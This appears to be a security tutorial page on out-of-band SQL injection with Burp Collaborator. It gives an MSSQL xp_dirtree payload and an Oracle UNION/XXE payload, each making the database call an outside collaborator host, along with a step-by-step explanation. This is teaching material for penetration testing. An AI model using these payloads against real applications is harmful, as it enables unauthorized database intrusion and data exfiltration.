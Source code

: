 A tool for using out-of-band techniques is Burp Collaborator.

It is a server that provides custom implementations of various network services, including DNS. It allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Burp Suite Professional includes a built-in client that's configured to work with Burp Collaborator right out of the box.

the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This causes the database to perform a lookup for the following domain:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```



**payload:**

```
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--
```

1. **UNION SELECT**: This part of the injection indicates that the attacker is attempting to append their own SQL query to the original query. The `UNION` operator is used to combine the result sets of two separate SELECT queries into a single result set.
2. **EXTRACTVALUE(xmltype('\<?xml version="1.0" encoding="UTF-8"?>\<!DOCTYPE root \[ \<!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l')**: Here, the attacker is using the `EXTRACTVALUE` function in Oracle SQL to extract a value from an XML document. The XML document is crafted by the attacker and contains a reference to an external entity declared in the DTD (Document Type Definition) section.
   * The XML document starts with a standard XML declaration (`<?xml version="1.0" encoding="UTF-8"?>`).
   * Then, a DTD is defined within the XML document using `<!DOCTYPE root [ ... ]>` syntax. Within the DTD, an external entity `%remote` is declared, which points to a URL specified by the attacker (`http://BURP-COLLABORATOR-SUBDOMAIN/`).
   * The `%remote;` entity is then referenced within the XML document.
   * The `EXTRACTVALUE` function is then used to extract a value from this crafted XML document. The XPath expression `/l` is specified, attempting to extract the value of the `<l>` element from the XML document.
3. **FROM dual**: In Oracle SQL, `dual` is a special one-row, one-column table. It is commonly used in SQL queries where you don't need to query any particular table, but you still need to execute some SQL logic.
4. **--**: This is a comment in SQL. Everything after `--` is ignored by the SQL engine.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (7).png" alt=""><figcaption></figcaption></figure>
